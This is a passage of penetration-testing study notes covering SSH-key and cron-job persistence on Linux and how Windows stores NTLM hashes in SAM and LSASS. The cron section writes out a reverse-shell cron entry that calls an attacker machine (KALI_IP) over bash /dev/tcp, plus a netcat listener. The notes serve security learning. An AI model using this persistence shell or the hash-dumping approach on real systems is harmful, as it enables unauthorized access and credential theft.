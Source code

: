 	+ Could ideally generate a SSH key pair on the Kali linux system, keep the private key on Kali, and transfer the public key onto the system in the `.ssh` file under authorized keys

#### Linux Persistence Via Cron Jobs ####
+ Linux implements task scheduling though a utility called Cron. Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specified schedule 
+ An application, or script that has been configured to be run repeatedly with Cron is known as a Cron Job
+ Can use cron jobs toe execute a command or script at a fixed interval to ensure we have persistent access to the target system
	+ Can maliciously set one to execute continuously, with a reverse shell for example 
+ <mark style="background: #D2B3FFA6;">Anatomy of a Cron Job</mark>:
![[Screen Shot 2022-11-16 at 3.14.01 PM.png]]
+ **After gaining initial access**:
	+ Can enumerate the cron job information with: `cat /etc/cron*`
	+ Can make a cron job reverse shell with: `echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/KALI_IP/1234 0>&1'" > cron 
	+ Can add it as a cron job with `crontab -i cron`
		+ Can view it with `crontab -l` 
	+ Can connect to it with `nc -nvlp 1234` 

## Dumping & Cracking ##

### Dumping & Cracking Windows Hashes (NTLM) ###

#### Windows Password Hashes ####
+ The Windows OS stores hashed user account passwords locally in the <mark style="background: #ADCCFFA6;">SAM (Security Account Manager)</mark> database
+ Hashing is the process of converting a piece of data into another value. A hashing function or algorithm is used to generate the new value. The result of a hashing algorithm is known as a hash or hash value.
+ Authentication and verification of user credentials is facilitated by the <mark style="background: #FFF3A3A6;">Local Security Authority (LSA)</mark>
+ Windows versions up to Windows Server 2003 utilize two different types of hashes:
	+ **LM**
	+ **NTLM**
+ Windows disables LM hashing and utilizes NTLM hashing from Windows Vista onward
	+ <mark style="background: #FF5582A6;">NOTE</mark>: There are various versions of NTLM including NTLMv1 and NTLMv2

#### SAM Database ####
+ SAM (Security Account Manager) is a database file that is responsible for managing user accounts and passwords on Windows. All user account passwords stored in the SAM database are hashed
+ The SAM database file cannot be copied while the OS is running
	+ Though sometimes, the windows OS will make a copy when it runs into an issue, or an admin will 
+ The Windows NT kernel keeps the SAM database file locked and as a result attackers typically utilize in-memory techniques and tools to dump <mark style="background: #ADCCFFA6;">SAM</mark> hashes from the <mark style="background: #FFB86CA6;">LSASS</mark> process cache
+ In modern versions of Windows, the SAM database is encrypted with a **syskey** 
+ <mark style="background: #FF5582A6;">NOTE</mark>: Elevated/Administrative privileges are required in order to access and interact with the LSASS process
